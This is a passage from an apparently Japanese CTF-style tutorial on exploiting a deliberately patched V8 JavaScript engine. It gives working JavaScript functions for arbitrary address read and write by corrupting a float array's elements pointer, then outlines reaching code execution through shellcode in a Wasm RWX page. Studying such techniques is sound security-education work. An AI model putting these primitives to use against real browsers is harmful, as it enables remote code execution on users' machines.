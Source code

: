 ### v8 heap中のAAR/AAW

これまで扱ってきた仕様により、float64の配列はメモリ上でelementsが指す部分から0x8足した部分を64bit浮動小数点数の配列とみなして参照していることがわかった。したがって、float64の配列のelementsに何らかのアドレスを設定することで、そのアドレス+0x8の位置にある数値を読み書き出来ることになる。

前述の通り、配列のelementsに対する読み書きが`length+1`の部分を参照することで出来ることを示したことから、同じようにして次のような関数で実現出来る。

```javascript
// AAR
// tmp_float_arr[0] <=> *(tmp_float_arr->pElements + 0x8)
function aar(addr) {
    addr -= 8n;
    // compress ptr
    if (addr % 2n == 0) {
        addr += 1n
    }

    // write elements of tmp_float_arr
    let tmp_float_arr = [1.1];
    tmp_float_arr = tmp_float_arr.slice(0);
    // save length of tmp_float_arr
    let l = f2i(tmp_float_arr[2]) & 0xffffffff00000000n;
    tmp_float_arr[2] = i2f(addr + l);

    return f2i(tmp_float_arr[0]);
}

// AAW
// tmp_float_arr[0] <=> *(tmp_float_arr->pElements + 0x8)
function aaw(addr, v) {
    addr -= 8n;
    // compress ptr
    if (addr % 2n == 0) {
        addr += 1n
    }

    // write elements of tmp_float_arr
    let tmp_float_arr = [1.1];
    tmp_float_arr = tmp_float_arr.slice(0);
    // save length of tmp_float_arr
    let l = f2i(tmp_float_arr[2]) & 0xffffffff00000000n;
    tmp_float_arr[2] = i2f(addr + l);

    tmp_float_arr[0] = i2f(v);
}
```

注意点として、アドレスの最下位bitが立っていることを考慮してアドレスを設定する必要があることと、上位32bitが配列の長さとなっているため、ここを小さい値にしてしまうと参照出来なくなることがある。

### RWXページの取得

AARやAAWが実現出来たため、これらを利用して任意コード実行に持ち込みたい。ROPや関数ポインタの書き換え等が考えられるが、ここではv8のようなJS engineで使える手法としてWasmのインスタンスを生成した際に確保されるRWX領域にシェルコードを書いて実行する手法を用いる。


[^1]: Heap Exploitの簡単な問題を解いたことがある(私自身がこれ)ぐらいを想定しているが、AARとAAWが出来ると何が嬉しいかなんとなくわかっていれば問題ないと思う
[^2]: 手元でビルドするメリットも存在し、[katagaitai CTF勉強会 #11 Pwnable編 - PlaidCTF 2016 Pwnable666 js_sandbox / katagaitai CTF #11 - Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-11?slide=28)によれば、printfやインラインアセンブリ(`int3`)によるデバッグの効率化等があるらしい
[^3]: 脆弱性を埋め込むパッチを埋め込んでいない場合は、配列の外側を参照することになるためundefinedになる